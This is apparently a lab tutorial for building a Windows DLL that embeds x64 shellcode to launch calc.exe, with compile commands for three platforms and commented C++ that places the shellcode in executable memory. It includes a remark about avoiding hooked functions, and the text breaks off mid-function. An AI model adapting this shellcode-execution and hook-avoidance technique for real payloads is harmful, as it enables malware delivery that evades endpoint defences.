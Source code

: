 
## Instructions
Use code above and save as a *.cpp file, in my case I'll save it as `calc_dll.cpp`.

We'll then need to compile our DLL, the exact application + command will differ depending on what system you are working from:

On Darwin (Mac OS):
```
x86_64-w64-mingw32-g++ calc_dll.cpp -o calc_dll.dll -shared -static-libgcc -static-libstdc++ -luser32
```

On Windows:
```
cl.exe /D_USRDLL /D_WINDLL calc_dll.cpp /link /DLL /OUT:calc_dll.dll
```

On Linux:
```
g++ -shared -o calc_dll.dll calc_dll.cpp -Wl,--out-implib,libcalc_dll.a
```

## Expected Outcome:

After the compilation command finishes without errors, you should find a new file named `calc_dll.dll` in the same directory, 
this is your compiled Dynamic Link Library. The DLL contains embedded shellcode to launch `calc.exe` and exports the 
function `LaunchCalc` to trigger this shellcode. For now we can't do much with it, but it is now ready to be used in the next lab 
where we will create a Go loader to execute it using standard Windows API calls.

___
## Code with Comments
```c++
#include <windows.h>

// Reliable x64 Windows shellcode for launching calculator
unsigned char calc_shellcode[] = {
    0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63,
    0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48,
    0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
    0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24,
    0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45,
    0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7,
    0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
};

// Execute shellcode directly (without using a thread)
BOOL ExecuteShellcode() {
    // Allocate memory with PAGE_EXECUTE_READWRITE
    // This memory region will hold our shellcode and needs to be executable.
    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_EXECUTE_READWRITE);

    if (exec_memory == NULL) {
        // Allocation failed, return FALSE to indicate failure.
        return FALSE;
    }

    // Copy shellcode bytes from our array into the executable memory region.
    // RtlCopyMemory is often used as it can be less likely to be hooked than memcpy.
    RtlCopyMemory(exec_memory, calc_shellcode, sizeof(calc_shellcode));
```
